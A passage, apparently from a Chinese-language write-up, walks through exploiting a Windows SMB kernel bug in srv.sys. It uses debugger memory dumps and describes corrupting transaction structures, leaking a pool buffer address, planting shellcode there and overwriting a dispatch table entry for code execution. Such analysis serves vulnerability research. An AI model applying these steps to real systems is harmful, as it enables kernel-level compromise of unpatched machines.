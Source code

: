 ```c
kd> ub eip
srv!ExecuteTransaction+0x60:
b76e8d05 46              inc     esi
b76e8d06 50              push    eax
b76e8d07 d1e0            shl     eax,1
b76e8d09 2bc2            sub     eax,edx
b76e8d0b 8d440803        lea     eax,[eax+ecx+3]
b76e8d0f 83e0fc          and     eax,0FFFFFFFCh
b76e8d12 03c2            add     eax,edx
b76e8d14 894640          mov     dword ptr [esi+40h],eax

kd> dd 5ace0
0005ace0  109c020c 00000000 89b2c948 89a29c18
0005acf0  e1ed9900 e15e2960 0005bda0 00059c50
0005ad00  00020000 0005ad78 00002361 40010036
0005ad10  00000000 0005ad0c 8993fa25 0005ad7c
0005ad20  8993fa28 0005ad7c b76d84ec 00000004
0005ad30  00000000 00000000 00000000 00000010
0005ad40  00000000 00000000 00000100 00000000
0005ad50  00000101 08000000 0800cee6 0000004b

kd> ? esi+0x40
Evaluate expression: 372000 = 0005ad20

kd> r eax
eax=8993fa28

```
##### 5.1.2.1 transaction->OutParameters=NULL
Transaction 初始状态下`OutParameters`并不为NULL：
```c
kd> dd 5ace0
0005ace0  109c020c 00000000 89b2c948 89a29c18
0005acf0  e1ed9900 e15e2960 0005bda0 00059c50
0005ad00  00020000 0005ad78 00002361 00000001
0005ad10  00000000 0005ad7c 00000000 0005ad7c
0005ad20  0005adbc 0005ad7c 0005bd7c 00000000
0005ad30  00000000 00000000 00000000 00000fc0
0005ad40  00000000 00000040 00000000 00000000
0005ad50  00000101 08000000 0800cee6 0000004b
```
这里通过`write_transaction`越界 写 `leak_transaction->OutParameters`为NULL, 然后发包触发写`leak_transaction`操作，之后`leak_transaction->OutParameters`便为一 Npp Buffer值了。
##### 5.1.2.2 leak_transaction->OutData = &leak_transaction->OutParameters
这里要事先泄露leak_transaction的基址，其实也不难，通过读leak_transaction的OutData 或 OutParameters 或 InData 字段的值再减去一定的偏移便得到了基址，使`leak_transaction->OutData = &leak_transaction->OutParameters`之后，发包触发leak_transaction读操作便将该Npp buffer地址泄露出来了。
##### 5.1.2.3 写shellcode到Npp Buffer
将`control_transaction->OutData`设为`Npp Buffer+0x100`地址，然后发包发送shellcode，便将shellcode写到了`Npp Buffer+0x100`内。
### 5.2 代码执行
至此，直接将Npp buffer+0x100写到之前泄露出来的函数表里
```c
kd> dds b76d8598
b76d8598  b7709683 srv!SrvSmbOpen2
b76d859c  b76f62a8 srv!SrvSmbFindFirst2
b76d85a0  b76f74e5 srv!SrvSmbFindNext2
b76d85a4  b76f6309 srv!SrvSmbQueryFsInformation
b76d85a8  b7707293 srv!SrvSmbSetFsInformation
b76d85ac  b77041ad srv!SrvSmbQueryPathInformation
b76d85b0  b7703ce7 srv!SrvSmbSetPathInformation
```